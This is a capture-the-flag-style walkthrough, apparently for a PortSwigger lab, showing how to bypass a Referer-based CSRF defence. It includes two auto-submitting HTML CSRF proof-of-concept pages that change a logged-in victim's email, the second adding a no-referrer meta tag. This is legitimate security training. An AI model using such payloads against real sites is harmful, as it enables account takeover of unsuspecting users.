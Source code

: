## Lab Description: 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/92feecab-6680-4a66-baab-851fbef45c35)

## Solution:

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f940f2cb-9c60-4f85-883a-9f0a255d61e2)

Send the request to Burp Repeater and Generte the payload.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f7a10623-f331-4ed5-9522-9606c55cb901)

Created POC is below
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a18004d04877b8f83715009002f001c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;gmial&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

when viewing the exploit it will show as invalid Referer header.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/971f1b69-3d4b-4708-8d7c-885b6912c2fa)

Then Delete the Referer header entirely and observe that the request is now accepted.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/49a70a29-dd51-4c26-9330-e20c85f82a9e)

request worked.

Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Include the following HTML to suppress the Referer header:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b25b84d3-abe3-427e-b85a-ec096c3a6724)

```
<meta name="referrer" content="no-referrer">
```
now Generte the payload an insert this payload in that.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
   <meta name="referrer" content="no-referrer">
    <form action="https://0a18004d04877b8f83715009002f001c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;gmial&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Store the exploit, then click "Deliver to victim" to solve the lab.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e8e91350-92b9-445a-92b7-dce89e371d01)
